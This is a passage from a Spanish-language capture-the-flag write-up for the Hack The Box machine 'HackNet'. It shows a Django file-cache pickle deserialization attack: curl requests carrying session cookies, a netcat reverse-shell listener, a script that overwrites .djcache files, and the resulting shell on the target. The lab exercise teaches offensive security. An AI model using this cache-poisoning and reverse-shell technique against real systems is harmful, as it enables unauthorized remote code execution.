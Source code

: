 Ahora tendremos que realizar una peticion para que se `caché` de esta forma:

```shell
curl -H 'Host: hacknet.htb' -H 'Cookie: csrftoken=Gb5sfC4RCUOUNPun3YNOpIcHPmVTZBzY; sessionid=0m72xro74306lt0asdeod6jhe6m93nyk' 'http://hacknet.htb/explore?page=1'
```

Echo esto se deberia de guardar los archivos `djcache` en dicha carpeta:

```shell
ls -la /var/tmp/django_cache/
```

Info:

```
total 84
drwxrwxrwx 2 sandy www-data 73728 Oct  5 08:20 .
drwxrwxrwt 4 root  root      4096 Oct  5 00:00 ..
-rw------- 1 sandy www-data    34 Oct  5 08:20 92edc87e91d6f8579414a59afd91bfb8.djcache
-rw------- 1 sandy www-data  2130 Oct  5 08:20 bcba2a1d7459dd42955800c851927d26.djcache
```

Ahora si tendremos que ejecutar el script, pero antes nos pondremos a la escucha:

```shell
nc -lvnp <PORT>
```

Si ejecutamos el script veremos lo siguiente:

```shell
python3 createPickle.py
```

Info:

```
[+] Written payload to bcba2a1d7459dd42955800c851927d26.djcache
[+] Written payload to 92edc87e91d6f8579414a59afd91bfb8.djcache
```

Ahora seguidamente en otra terminal ejecutaremos lo siguiente de nuevo para que cargue el `cache` sobreescrito:

```shell
curl -H 'Host: hacknet.htb' -H 'Cookie: csrftoken=Gb5sfC4RCUOUNPun3YNOpIcHPmVTZBzY; sessionid=0m72xro74306lt0asdeod6jhe6m93nyk' 'http://hacknet.htb/explore?page=1'
```

Nos mostrar la pagina en codigo `HTML`, pero si vamos a donde tenemos la escucha, veremos lo siguiente:

```
listening on [any] 9999 ...
connect to [10.10.14.64] from (UNKNOWN) [10.10.11.85] 50150
whoami
sandy
```

Veremos que ha funcionado, por lo que tendremos que sanitizar la `shell`.
